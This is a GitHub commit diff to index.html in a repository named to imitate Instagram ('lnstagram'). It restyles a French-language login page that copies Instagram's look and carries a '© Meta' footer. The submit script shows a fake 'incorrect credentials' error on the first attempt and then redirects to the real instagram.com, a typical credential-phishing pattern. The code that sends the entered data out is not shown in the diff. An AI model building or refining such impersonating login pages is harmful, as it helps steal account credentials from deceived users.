

Before and after one commit to lnstagram905/lnstagram, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (332-972 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,85 +4,121 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Se connecter</title>
+  <title>Instagram</title>
   <style>
     body {
-      font-family: sans-serif;
+      margin: 0;
+      font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Helvetica, Arial, sans-serif;
       background-color: #fff;
-      text-align: center;
-      padding: 50px 20px;
+      color: #262626;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
     }
 
     .container {
+      width: 100%;
       max-width: 400px;
-      margin: auto;
+      padding: 20px;
+    }
+
+    .language {
+      text-align: center;
+      margin-bottom: 20px;
+      color: #8e8e8e;
     }
 
     .logo {
-      width: 100px;
-      height: 100px;
-      margin: 40px auto;
+      width: 80px;
+      height: 80px;
+      margin: 0 auto 30px;
       background-color: #eee;
       border-radius: 20px;
     }
 
     input {
-      display: block;
       width: 100%;
-      margin-bottom: 15px;
-      padding: 10px;
-      border-radius: 10px;
-      border: 1px solid #ccc;
-      font-size: 16px;
+      padding: 12px;
+      margin: 6px 0;
+      border: 1px solid #dbdbdb;
+      border-radius: 6px;
+      font-size: 14px;
     }
 
-    .btn-primary {
+    button {
+      width: 100%;
       background-color: #0095f6;
       color: white;
+      border: none;
+      padding: 10px;
+      border-radius: 8px;
+      font-weight: bold;
+      margin-top: 10px;
+      font-size: 14px;
+    }
+
+    .forgot {
+      text-align: center;
+      margin: 15px 0;
+      font-size: 13px;
+      color: #00376b;
+    }
+
+    .create-account {
+      border: 1px solid #dbdbdb;
+      border-radius: 30px;
       padding: 12px;
-      border: none;
-      border-radius: 25px;
-      font-size: 16px;
+      text-align: center;
+      margin-top: 20px;
+      font-weight: bold;
+      color: #0095f6;
       cursor: pointer;
     }
 
-    .btn-secondary {
-      background-color: transparent;
-      border: 1px solid #0095f6;
-      color: #0095f6;
-      padding: 12px;
-      border-radius: 25px;
+    .meta {
+      text-align: center;
       margin-top: 20px;
-      font-size: 16px;
-    }
-
-    .meta-logo {
-      margin-top: 30px;
-      font-size: 14px;
-      color: gray;
+      font-size: 12px;
+      color: #8e8e8e;
     }
   </style>
 </head>
 
 <body>
   <div class="container">
+    <div class="language" id="lang-label">Français (France)</div>
     <div class="logo" id="logo-placeholder"></div>
     <form id="login-form">
       <input type="text" id="username" placeholder="Nom de profil, e-mail ou numéro de mobile" required>
       <input type="password" id="password" placeholder="Mot de passe" required>
-      <button type="submit" class="btn-primary">Se connecter</button>
+      <button type="submit">Se connecter</button>
     </form>
-    <p id="message" style="margin-top: 20px;"></p>
-    <p><a href="#">Mot de passe oublié ?</a></p>
-    <button class="btn-secondary">Créer un compte</button>
-    <div class="meta-logo">© Meta
+    <div class="forgot">Mot de passe oublié ?</div>
+    <div class="create-account">Créer un compte</div>
+    <div class="meta">© Meta
     </div>
   </div>
 
   <script>
+    // اللغة حسب لغة المتصفح
+    const langElement = document.getElementById("lang-label");
+    const lang = navigator.language || navigator.userLanguage;
+
+    const langMap = {
+      'fr': 'Français (France)',
+      'en': 'English (US)',
+      'de': 'Deutsch',
+      'ar': 'العربية',
+      'it': 'Italiano',
+    };
+
+    const langShort = lang.split("-")[0];
+    if (langMap[langShort]) {
+      langElement.textContent = langMap[langShort];
+    }
+
     const form = document.getElementById("login-form");
-    const message = document.getElementById("message");
-
     let attempt = 0;
 
     form.addEventListener("submit", async function (e) {
@@ -111,12 +147,16 @@
         });
       }
 
-      message.textContent = "Chargement...";
+      const btn = form.querySelector('button');
+      btn.disabled = true;
+      btn.textContent = 'Chargement...';
 
       setTimeout(() => {
         attempt++;
+        btn.disabled = false;
         if (attempt < 2) {
-          message.textContent = "Informations incorrectes. Veuillez réessayer.";
+          btn.textContent = 'Se connecter';
+          alert("Informations incorrectes. Veuillez réessayer.");
         } else {
           window.location.href = "https://www.instagram.com";
         }
```
